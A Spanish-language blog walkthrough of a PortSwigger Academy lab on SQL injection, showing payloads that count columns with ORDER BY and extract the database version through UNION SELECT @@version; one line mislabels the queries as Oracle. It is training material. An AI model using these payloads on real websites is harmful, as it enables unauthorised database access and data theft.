

+++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 8"
date = "2021-11-06"
description = "Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

En este <cite>laboratorio[^1]</cite>la finalidad es poder extraer la version de la base de datos MySQL o Microsoft SQL Server y poder imprimir en las tablas que se presentan. La string que deberiamos de recuperar es `8.0.27`

## Reconocimiento

Algo a notar en las consultas al hacer union en MySQL es que al agregar un comentario se debe de agregar un espacio, como ejemplo `union select null-- ` notese el espacio al final para que el sistema pueda comentar correctamente, en otros gestores no es necesario esto pero MySQL si.

> Algo a tomar en cuenta es que al hacer la solicitud por medio del navegador si se agrega solamente un espacio este no aceptara correctamente la consulta por alguna razon por lo que habria que agregar un `-` para inyectar correctamente la consulta y contrario por medio de `repeater en burpsuite` si se puede agregar solo el espacio y sigue mostrando correctamente sin dar un error de servidor.

###  Payloads

#### Detectar columnas

```sql
Gifts' order by 1-- -
Gifts' order by 2-- -
Gifts' order by 3-- - //Muestra error
```
### Detectar string

Por lo que se ve al imprimir datos es que las dos columnas recuperan datos string, no es necesario hacer la prueba pero siempre hacerlo cuando se dude.

```sql
Gifts' union select 'test','test'-- -
```
### Recuperar version

Ahora recuperar la version, las consultas utilizadas para esto en `Oracle` son las siguientes:

```sql
Gifts' union select @@version,null-- -
```
Y con esto hemos resulto el lab:



Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)